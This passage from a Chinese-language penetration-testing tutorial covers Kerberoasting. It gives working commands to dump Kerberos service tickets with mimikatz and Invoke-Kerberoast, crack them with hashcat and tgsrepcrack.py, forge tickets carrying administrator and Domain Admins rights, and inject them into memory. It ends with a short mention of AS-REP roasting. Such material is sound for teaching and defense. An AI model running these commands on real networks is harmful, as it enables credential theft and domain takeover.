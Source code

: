 ### How to export hash

获得了 ST 票据，但怎么导出？

**1.mimikatz**

导出所有票据

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132544.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132544.png)

可以发现生成了 kirbi 文件。这就是我们所需要的 hash 了

**2.Empire Powershell 框架**

github:[https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

我们通过这个框架可以导出 hashcat 格式的 hash.

```
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -outputFormat Hashcat
```

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132627.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132627.png)

### How to crack HASH

如何破解 HASH?

**1.HASHCAT**

这个工具需要让 hash 格式为 hashcat 模式才能进行破解。kribi 文件不能放入 hashcat 进行破解.

```
hashcat -m 13110 pass.txt hash.txt
```

**2.kerberoast 中的 tgsrepcrack.py**

支持 kribi 文件破解

```
python3 tgsrepcrack.py pass.txt xxx.kribi
```

### How to use Kerberoast

既然我们都把 ST 的加密 hash 都破解了，那么我们就可以随便改 ST 中的票据内容了..\ 这里使用的是 kerberoast 工具集里的 kerberoast.py

```
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -u 500
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -g 512
## 将票据权限改为administrator
kerberos::ptt PENTESTLAB.kirbi  #将票据注入到内存
```

AS_REP Roast
------------

较 Kerberoast 来说，比较鸡肋。  
它的原理是在不开启 kerberos 预身份验证的前提下，获得其他用户的 AS_RES，并破解加密 session key 的 client hash。
